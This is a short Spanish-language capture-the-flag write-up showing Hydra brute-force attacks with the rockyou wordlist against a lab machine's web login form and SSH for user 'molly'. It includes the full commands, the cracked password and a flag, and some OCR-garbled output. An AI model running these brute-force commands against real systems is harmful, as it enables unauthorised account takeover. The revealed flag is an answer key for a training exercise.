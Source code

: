 ## Tarea 2
Con hydra podemos realizar ataques de fuerza bruta en formulario web 

`hydra -l molly -P /usr/share/wordlists/rockyou.txt  10.10.67.151(http://machine_ip/) http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."`

- `username` es el campo de formulario donde se ingresa el nombre de usuario
- nombre de usuario (s) especificado reemplazará `^USER^`
- `password` es el campo de formulario donde se ingresa la contraseña
- Las contraseñas proporcionadas serán reemplazadas `^PASS^`
- `F=incorrect` es una cadena que aparece en la respuesta del servidor cuando falla el inicio de sesión

El resultado de ejecutar el comando es:
`[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login`
`tries`
`—896525 tries per task`
`[DATA] attacking http-post-form://IO.IO.136.137:80/Iogin:username=AUSERA6password=APASSA:your username or password is inco`
`sunshine`
`host: 10.10.67.151`
`login: molly`
`password :sunshine`

Con esa información podemos ingresar y encontrar la primera bandera:
![[Pasted image 20250415015642.png]]
Para la segunda bandera utilizaremos ssh 
`hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.67.151 ssh`
y encontramos la segunda bandera:
`molly@ip-10-10-136-137 cat flag2.txt`
`fHM{c8eeb0468febbadea859baeb33b2541b}`
`Ans`
